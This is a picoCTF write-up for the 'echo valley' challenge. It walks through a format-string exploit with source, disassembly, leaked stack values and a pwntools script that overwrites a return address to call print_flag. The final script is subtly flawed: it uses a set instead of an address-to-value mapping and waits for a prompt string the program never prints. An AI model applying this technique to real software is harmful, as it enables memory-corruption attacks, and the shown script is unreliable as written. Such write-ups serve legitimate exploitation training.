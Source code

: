 # picoCTF echo valley 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }

    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```

```bash
$ checksec --file=valley
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> **Full RELRO** (Relocation Read-Only) is a security feature that makes the entire Global Offset Table (GOT) of an ELF binary read-only. This prevents attackers from overwriting function pointers in the GOT.
> **stack canary** is a security mechanism, a known value placed on the stack, that helps detect stack buffer overflows. When a buffer overflows, it corrupts the canary, and a check for its integrity triggers an error, preventing potentially malicious code from executing.
> **NX** short for No eXecute, is a security feature in modern CPUs that prevents memory regions from being executed as code.
> **PIE** stands for Position Independent Executable, which means that every time you run the file it gets loaded into a different memory address. This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.


## How to exploit?

#### vulnerability
```c
printf(buf);
```

Confirming if there even is a memory leak.
```bash
$ python3 -c "import sys;sys.stdout.buffer.write(b'%p '*5)" | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x7ffe91b0eee0 (nil) (nil) (nil) (nil)
EOF detected. Exiting...
```

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000001401 <+0>:     endbr64
   0x0000000000001405 <+4>:     push   rbp
   0x0000000000001406 <+5>:     mov    rbp,rsp
   0x0000000000001409 <+8>:     mov    eax,0x0
   0x000000000000140e <+13>:    call   0x1307 <echo_valley>
   0x0000000000001413 <+18>:    mov    eax,0x0
   0x0000000000001418 <+23>:    pop    rbp
   0x0000000000001419 <+24>:    ret
End of assembler dump.

(gdb) disassemble echo_valley
Dump of assembler code for function echo_valley:
   0x0000000000001307 <+0>:     endbr64
   0x000000000000130b <+4>:     push   rbp
   0x000000000000130c <+5>:     mov    rbp,rsp
   0x000000000000130f <+8>:     sub    rsp,0x70
   0x0000000000001313 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000000000000131c <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001320 <+25>:    xor    eax,eax
   0x0000000000001322 <+27>:    lea    rax,[rip+0xd37]        # 0x2060
   0x0000000000001329 <+34>:    mov    rdi,rax
   0x000000000000132c <+37>:    call   0x10e0 <puts@plt>
   0x0000000000001331 <+42>:    mov    rax,QWORD PTR [rip+0x2cd8]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x0000000000001338 <+49>:    mov    rdi,rax
   0x000000000000133b <+52>:    call   0x1140 <fflush@plt>
   0x0000000000001340 <+57>:    mov    rdx,QWORD PTR [rip+0x2cd9]        # 0x4020 <stdin@GLIBC_2.2.5>
   0x0000000000001347 <+64>:    lea    rax,[rbp-0x70]
   0x000000000000134b <+68>:    mov    esi,0x64
   0x0000000000001350 <+73>:    mov    rdi,rax
   0x0000000000001353 <+76>:    call   0x1120 <fgets@plt>
   0x0000000000001358 <+81>:    test   rax,rax
   0x000000000000135b <+84>:    jne    0x1376 <echo_valley+111>
   0x000000000000135d <+86>:    lea    rax,[rip+0xd27]        # 0x208b
   0x0000000000001364 <+93>:    mov    rdi,rax
   0x0000000000001367 <+96>:    call   0x10e0 <puts@plt>
   0x000000000000136c <+101>:   mov    edi,0x0
   0x0000000000001371 <+106>:   call   0x1170 <exit@plt>
   0x0000000000001376 <+111>:   lea    rax,[rbp-0x70]
   0x000000000000137a <+115>:   lea    rdx,[rip+0xd24]        # 0x20a5
   0x0000000000001381 <+122>:   mov    rsi,rdx
   0x0000000000001384 <+125>:   mov    rdi,rax
   0x0000000000001387 <+128>:   call   0x1130 <strcmp@plt>
   0x000000000000138c <+133>:   test   eax,eax
   0x000000000000138e <+135>:   jne    0x13c1 <echo_valley+186>
   0x0000000000001390 <+137>:   lea    rax,[rip+0xd14]        # 0x20ab
   0x0000000000001397 <+144>:   mov    rdi,rax
   0x000000000000139a <+147>:   call   0x10e0 <puts@plt>
   0x000000000000139f <+152>:   nop
   0x00000000000013a0 <+153>:   mov    rax,QWORD PTR [rip+0x2c69]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x00000000000013a7 <+160>:   mov    rdi,rax
   0x00000000000013aa <+163>:   call   0x1140 <fflush@plt>
   0x00000000000013af <+168>:   nop
   0x00000000000013b0 <+169>:   mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000013b4 <+173>:   sub    rax,QWORD PTR fs:0x28
   0x00000000000013bd <+182>:   je     0x13ff <echo_valley+248>
   0x00000000000013bf <+184>:   jmp    0x13fa <echo_valley+243>
   0x00000000000013c1 <+186>:   lea    rax,[rip+0xcf9]        # 0x20c1
   0x00000000000013c8 <+193>:   mov    rdi,rax
   0x00000000000013cb <+196>:   mov    eax,0x0
   0x00000000000013d0 <+201>:   call   0x1110 <printf@plt>
   0x00000000000013d5 <+206>:   lea    rax,[rbp-0x70]
   0x00000000000013d9 <+210>:   mov    rdi,rax
   0x00000000000013dc <+213>:   mov    eax,0x0
   0x00000000000013e1 <+218>:   call   0x1110 <printf@plt>
   0x00000000000013e6 <+223>:   mov    rax,QWORD PTR [rip+0x2c23]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x00000000000013ed <+230>:   mov    rdi,rax
   0x00000000000013f0 <+233>:   call   0x1140 <fflush@plt>
   0x00000000000013f5 <+238>:   jmp    0x1331 <echo_valley+42>
   0x00000000000013fa <+243>:   call   0x1100 <__stack_chk_fail@plt>
   0x00000000000013ff <+248>:   leave
   0x0000000000001400 <+249>:   ret
End of assembler dump.
```

On leaking further stack addresses, we can see there are addresses of main and return address of echo_valley on 27th and 21st positions.
```bash
python3 -c "import sys;sys.stdout.buffer.write(b'%p '*30)" | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x7ffdbc376a60 (nil) (nil) (nil) (nil)0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070 (nil) 0x785fbe89bb663600 0x7ffdbc376c90 0x560d5c42d413 0x7ffdbc376d30 0x7f38dd2131ca 0x7ffdbc376ce0 0x7ffdbc376db8 0x15c42c040 0x560d5c42d401 0x7ffdbc376db8 0x366e2f652cc532e5 0x1
EOF detected. Exiting...
```

using position specific specifiers to further confirm this.
```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"%21$p %27$p")' | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x55dbb33cf413 0x55dbb33cf401
EOF detected. Exiting...
```

Then we can use these addresses with [pwntools](https://docs.pwntools.com/en/stable/) provided address to calculate the offset which is added to binary due to PIE.

```python
from pwn import *

context.arch = "amd64"
p = process("./valley")

p.sendlineafter(b"Shout: ", b"%21$p")
flag_addr = int(p.recv().decode("latin-1").split(":")[-1], 16)
flag_addr -= 0x1aa      # difference between ret address of echo_valley and print_flag

p.sendline(b"%20$p")
rip_addr = int(p.recv().decode("latin-1").split(":")[-1].strip(), 16)
rip_addr -= 8
```

If we look at the stack before returning from the echo_valley function we can see that there is a stack address placed on the stack just after the return value. We can subtract 8 from it to get the address of the ret value. 

```
(gdb) break *echo_valley+248
Breakpoint 1 at 0x13ff: file /home/valley/valley.c, line 43.
(gdb) r
Welcome to the Echo Valley, Try Shouting:
exit
The Valley Disappears

Breakpoint 1, 0x00005555555553ff in echo_valley () at /home/valley/valley.c:43
(gdb) x/20gx $rbp
0x7fffffffe180: 0x00007fffffffe190      0x0000555555555413
0x7fffffffe190: 0x00007fffffffe230      0x00007ffff7dcd1ca
0x7fffffffe1a0: 0x00007fffffffe1e0      0x00007fffffffe2b8
0x7fffffffe1b0: 0x0000000155554040      0x0000555555555401
0x7fffffffe1c0: 0x00007fffffffe2b8      0x5ad7f185ce967fde
0x7fffffffe1d0: 0x0000000000000001      0x0000000000000000
0x7fffffffe1e0: 0x0000555555557d78      0x00007ffff7ffd000
0x7fffffffe1f0: 0x5ad7f185c9b67fde      0x5ad7e1c3a9f47fde
0x7fffffffe200: 0x00007fff00000000      0x0000000000000000
0x7fffffffe210: 0x0000000000000000      0x0000000000000001
```

Now, we have the address to which we want to overwrite and the address which we have to overwrite with. so we can construct the payload with:

```python
payload = fmtstr_payload(6, {rip_addr, flag_addr}, write_size="short")

p.sendline(payload)
p.sendline(b"exit")
print(p.recvall().decode('latin-1'))
```

